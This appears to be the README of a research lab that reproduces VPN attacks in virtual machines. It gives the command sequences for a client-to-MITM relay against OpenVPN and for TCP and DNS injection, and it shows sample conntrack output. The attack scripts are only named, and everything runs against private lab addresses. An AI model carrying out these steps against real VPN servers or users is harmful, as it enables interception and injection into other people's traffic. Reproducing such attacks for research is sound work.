

# Overview

Each attack has its own Vagrantfile for ease of configuration. The attack descriptions
are located in the `Attack`` directory.

# virt-lab

VM lab environment for perform attacks. This implementation is a minimal deployment for
doing testing the attacks on a laptop with 16 GB RAM and 4 processors. 

### Requirements

* Virtualbox (5.2 or older)
* Vagrant 2.2.x

### Setup base virtual network

1. Start all VMs: `./boot_all.sh`
2. Go do something else cause its gonna take a while..
3. (Optional) ssh to some machine: 
  * ssh by port: `ssh -l vagrant localhost -p 22111`  
  * ssh with vagrant: `vagrant ssh <VM NAME>` (ex. `vagrant ssh attacker`)


### Full c2mitm attack

#### Connect attacker to VPN server


1. `user@host:~/git/VeepExploit/virt-lab$ vagrant ssh attacker` 
2. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client2.ovpn # Possibly run in tmux session` 
3. `vagrant@attacker:~$ sudo /vagrant/make_tun_route.sh # Force all traffic to the victim's NAT through the VPN server after we are connected` 
4. `vagrant@attacker:~$ sudo /vagrant/client-to-mitm/src/full-relay enp0s8 192.168.169.254 192.168.1.2 192.168.2.2 1194# Possibly run in tmux session` # Start the relay

#### Connect victim to "VPN server" (c2mitm $$$$)

1. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client1.ovpn` 

TODO: Add some more info to describe how to verify the attack work (it will be similiar to description for the simplified attack below).


### Simplified c2mitm attack (don't bother spamming the ephemeral port range of the victim just yet)

#### Force victim's source port to be 31338 

1. `user@host:~/git/VeepExploit/virt-lab$ vagrant ssh victim` 
2. `vagrant@victim:~$ sudo /vagrant/overwrite-sport-on-victim.sh`

#### Connect attacker to VPN server


1. `user@host:~/git/VeepExploit/virt-lab$ vagrant ssh attacker` 
2. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client2.ovpn # Possibly run in tmux session` 
3. `vagrant@attacker:~$ sudo /vagrant/make_tun_route.sh # Force all traffic to the victim's NAT through the VPN server after we are connected` 
4. `vagrant@attacker:~$ sudo /vagrant/client-to-mitm/src/simple-relay# Possibly run in tmux session` # Start the relay

5. `vagrant@attacker:~$ sudo /vagrant/client-to-mitm/src/prime-vpn-conntrack-table.sh 1194 31338 192.168.1.2` 

NOTE: The packets from (5.) only hang around in the VPN server's conntrack table for 30 seconds in the case of a UDP tunnel, so it
is important that the following step be performed within that time.

#### Connect victim to "VPN server" (c2mitm $$$$)

1. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client1.ovpn` 


Now, when you log into the VPN server, and run:

```bash
$ sudo conntrack -L | grep 1194
vagrant@vpnserver:/var/log$ sudo conntrack -L | grep 1194
udp      17 178 src=10.8.0.6 dst=192.168.1.2 sport=1194 dport=31338 src=192.168.1.2 dst=192.168.2.2 sport=31338 dport=1194 [ASSURED] mark=0 use=1
udp      17 177 src=192.168.169.254 dst=192.168.2.2 sport=31338 dport=1194 src=192.168.2.2 dst=192.168.169.254 sport=1194 dport=31338 [ASSURED] mark=0 use=1
udp      17 178 src=192.168.169.254 dst=192.168.2.2 sport=54075 dport=1194 src=192.168.2.2 dst=192.168.169.254 sport=1194 dport=54075 [ASSURED] mark=0 use=1

```

You should see that the victim's NAT IP (192.168.1.2) is not the src in the
entry with `sport=31338` but instead the attacker's IP is. That is because the
attacker is acting as a NAT for the client. If you log into the attacker and
take pcaps, you will see packets from the client to the attacker's `tun0`
address (likely, 10.8.0.6) followed by packets from the attacker's public IP
address (192.168.169.254) to the VPN server (which are packets the relay is
NAT).


# DEPRECATED/NEEDS UPDATE

## Client-Side Attack

#### Configure client side attack environment

1. Navigate to configuration folder: `cd virt-lab/configs`
2. Run setup script to build gateway attacker node: `./setup_cliside_env.sh`

#### Test client side attack 


1. ssh to victim client VM (base host): `cd virt-lab/edgers/client && vagrant ssh`
2. Connect client to VPN (in client vm): `./connect.sh`
3. Open another shell to ssh to web server node (base host): `cd virt-lab/edgers/web-server && vagrant ssh`
4. Open another shell to ssh to gateway attacker node (base host): `cd virt-lab/routers/gateway && vagrant ssh`
5. On web-server vm, open a netcat connection for the client to connect to: `nc -l 8080`
6. On the client vm, connect to the web server: `nc 192.168.3.2 8080 -p 40404`
7. On the attacker vm, navigate to the attack folder: `cd ChangeMe/client-side-attack`
8. Rebuild all the attack scripts (attacker): `./rebuild_all.sh`
9. Navigate to full attack folder (attacker): `cd complete_attack`
10. Start full attack script (attacker): `./attack.sh`
11. Wait for script to infer private tun IP, port in use, exact sequence number, and in-window ack number needed to inject TCP

## Server-Side Attack
 
#### Configure server side attack environment

1. Navigate to configuration folder: `cd virt-lab/configs`
2. Run setup script to build gateway attacker node: `./setup_servside_env.sh.sh`


#### Test server side DNS attack

1. ssh to victim client VM (base host): `cd virt-lab/edgers/client && vagrant ssh`
2. Connect client to VPN (in client vm): `./connect.sh`
3. Open another shell to ssh to router1 attacker node (base host): `cd virt-lab/routers/router1 && vagrant ssh`
4. On the attack router vm navigate to dns inject folder: `cd ChangeMe/server-side-attack/dns-sside/full_scan/`
5. Compile full attack script (attacker): `make` 
6. Issue DNS lookup from client vm: `nslookup yo.com 192.168.3.2`
7. Start inject script from attacker node: `./inject_test.sh` 

## Teardown

1. Stop all the VMs: `./stop_all.sh`
2. Destroii all VMs in our path: `./destroy_all.sh`


